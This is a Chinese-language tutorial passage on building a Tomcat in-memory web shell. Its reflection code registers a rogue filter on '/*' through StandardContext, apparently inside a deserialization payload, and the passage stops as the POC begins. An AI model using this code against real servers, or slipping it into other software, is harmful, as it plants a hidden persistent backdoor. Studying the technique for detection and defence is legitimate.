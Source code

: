 ### 创建filterDef封装Filter对象
如下代码将内存马融合进了反序列化的`payload`中，因此这里利用了反射来获取`FilterDef`对象。如果使用的是`jsp`或者是非反序列化的利用，则可以直接使用`new`来创建对象。

```java
Class<?> FilterDef = Class.forName("org.apache.tomcat.util.descriptor.web.FilterDef");
Constructor filterDefDeclaredConstructor = FilterDef.getDeclaredConstructor();
FilterDef filterDef = (FilterDef) filterDefDeclaredConstructor.newInstance();
filterDef.setFilter(filter);
filterDef.setFilterName(FilterName);
filterDef.setFilterClass(filter.getClass().getName());
standardContext.addFilterDef(filterDef);
```

### 创建filterMap绑定URL
通过反射创建`FilterMap`实例，该部分代码主要是注册`filter`的生效路由，并将`FilterMap`对象添加在`standardContext`中`FilterMaps`变量的第一个。

```java
Class<?> FilterMap = Class.forName("org.apache.tomcat.util.descriptor.web.FilterMap");
Constructor filterMapDeclaredConstructor = FilterMap.getDeclaredConstructor();
FilterMap filterMap = (FilterMap) filterMapDeclaredConstructor.newInstance();
filterMap.addURLPattern("/*");
filterMap.setFilterName(FilterName);
filterMap.setDispatcher(DispatcherType.REQUEST.name());
standardContext.addFilterMapBefore(filterMap);
```

### 获取`filterConfigs`变量并添加`filterConfig`对象
先获取在`standardContext`中存储的`filterConfigs`变量, 之后通过反射生成`ApplicationFilterConfig`对象，并将其放入`filterConfigs hashMap`中。

```java
Configs = standardContext.getClass().getDeclaredField("filterConfigs");
Configs.setAccessible(true);
filterConfigs = (Map) Configs.get(standardContext);
```

```java
Class<?> ApplicationFilterConfig = Class.forName("org.apache.catalina.core.ApplicationFilterConfig");
Constructor<?> applicationFilterConfigDeclaredConstructor = ApplicationFilterConfig.getDeclaredConstructor(Context.class, FilterDef.class);
applicationFilterConfigDeclaredConstructor.setAccessible(true);
ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) applicationFilterConfigDeclaredConstructor.newInstance(standardContext, filterDef);
filterConfigs.put(FilterName, filterConfig);
```

## POC
### Java版本

```java
import org.apache.catalina.Context;
import org.apache.catalina.core.ApplicationContext;
import org.apache.catalina.core.StandardContext;
import org.apache.tomcat.util.descriptor.web.FilterDef;
import org.apache.tomcat.util.descriptor.web.FilterMap;
import org.apache.catalina.core.ApplicationFilterConfig;

import javax.servlet.*;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.InputStream;
```